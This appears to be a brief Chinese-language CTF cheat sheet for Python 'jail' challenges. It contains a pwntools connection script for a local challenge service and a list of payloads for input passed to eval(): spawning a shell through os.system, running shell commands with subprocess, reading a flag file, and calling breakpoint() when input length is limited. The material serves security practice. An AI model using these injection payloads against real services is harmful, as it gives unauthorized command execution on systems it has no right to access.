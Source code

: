 关键词：jail

nc或python连接入口：
```
from pwn import *

server_ip = '127.0.0.1'
server_port = 26582

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```
一般会给你代码审计，然后连接入口后输入payload。

```
基础代码
eval(user_input_data)
```

^
## **payload**
直接高权限命令读
```
__import__('os').system('sh') 返回交互式shell

__import__('os').system('ls -al /tmp')

__import__('subprocess').run('cd /tmp && ls -al', shell=True)
```

低权限文件读
```
print(open('/tmp/therealflag_b8c7f31438c67cea772d2ea57dc77918').read())
```

限制长度
返回交互式终端
```
breakpoint()
```